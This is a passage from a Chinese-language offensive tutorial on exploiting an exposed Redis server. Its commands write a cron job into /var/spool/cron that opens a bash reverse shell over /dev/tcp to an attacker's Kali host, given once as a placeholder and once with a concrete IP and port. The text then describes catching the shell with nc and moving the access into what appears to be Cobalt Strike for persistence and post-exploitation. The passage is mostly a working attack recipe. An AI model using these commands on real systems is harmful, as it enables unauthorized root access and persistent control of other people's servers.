 ```plain
config set dir /var/spool/cron

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/<kali 的 IP>/<端口> 0>&1\n\n\n"

set -.- "\n\n\n* * * * * bash i >& /dev/tcp/192.168.16.59/5678 0>&1\n\n\n"

或者
set x "\n* * * * * /bin/bash i > /dev/tcp/<kali 的 IP>/<端口> 0<&1 2>&1\n"

set x "\n* * * * * /bin/bash i >& /dev/tcp/192.168.16.59/5678 0<&1 2>&1\n"

config set dbfilename root
save
```

[![](assets/1702372985-00eef55c6654ce5902bf5ff4b5dff1f9.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/9.png)

待任务执行后会弹到 kali 的 nc 上，过一分钟左右就可以收到 shell

[![](assets/1702372985-e0dbab9d1e7c86e29ccb69e52ce7ff7e.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/10.png)

再上线到 CS 做权限维持和后渗透

[![](assets/1702372985-29d9af65096cf1ade1cf242b85c08a07.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/11.png)

### [](#3-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E8%AE%A4%E8%AF%81%E8%8E%B7%E5%BE%97root%E6%9D%83%E9%99%90 "3.利用公私钥认证获得root权限")3.利用公私钥认证获得 root 权限[](#3-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E8%AE%A4%E8%AF%81%E8%8E%B7%E5%BE%97root%E6%9D%83%E9%99%90)

在以下条件下，可以利用此方法
